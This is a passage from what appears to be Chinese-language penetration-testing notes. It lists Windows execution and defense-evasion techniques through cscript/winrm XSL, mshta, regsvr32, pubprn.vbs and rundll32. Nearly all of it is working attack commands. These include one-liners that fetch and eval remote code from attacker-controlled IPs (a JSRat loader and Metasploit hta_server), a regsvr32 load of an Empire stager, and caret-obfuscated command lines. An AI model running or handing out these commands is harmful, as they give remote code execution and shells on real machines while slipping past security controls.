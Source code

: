 ![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/131.png)

	>mkdir winrm
	>copy c:\Windows\System32\cscript.exe winrm
	创建文件WsmPty.xsl复制payload进去
```xml
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
 <ms:script implements-prefix="user" language="JScript">
 <![CDATA[
 var r = new ActiveXObject("WScript.Shell").Run("cmd");
 ]]> </ms:script>
</stylesheet>

```
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/132.png)
	
	执行
	>cscript.exe //nologo C:\Windows\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/133.png)
  #### Mshta
	>use exploit/windows/misc/hta_server
	>set srvhost 192.168.0.107
	>mshta http://192.168.0.107:8080/RgNeCv.hta
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/134.png)

	执行vb
		>mshta vbscript:CreateObject("Wscript.Shell").Run("calc.exe",0,true)(window.close)
	Js
		>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
	Jsrat
		>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.2.101:9998/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
  #### Regsvr32
	上线Empire
	>usestager windows/launcher_sct
	生成sct文件放入web目录
	>regsvr32 /s /n /u /i:http://192.168.0.107:8080/launcher.sct scrobj.dll
	>cscript /b C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs 127.0.0.1 script:http://192.168.0.107/test.sct
  #### Rundll32
  ##### 执行文件
	>rundll32 url.dll, OpenURL file://c:\windows\system32\calc.exe
	>rundll32 url.dll, OpenURLA file://c:\windows\system32\calc.exe
	>rundll32 url.dll,OpenURL file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
	>rundll32 url.dll,FileProtocolHandler file://^C^:^/^W^i^n^d^o^w^s^/^s^y^s^t^e^m^3^2^/^c^a^l^c^.^e^x^e
	>rundll32 url.dll, FileProtocolHandler calc.exe
  ##### 无弹窗执行
	>rundll32 javascript:"\..\mshtml,RunHTMLApplication ";new%20ActiveXObject("WScript.Shell").Run("C:/Windows/System32/mshta.exe http://192.168.0.107:8080/SU8Fd6kNRz0.hta",0,true);self.close();
  ##### 增删注册表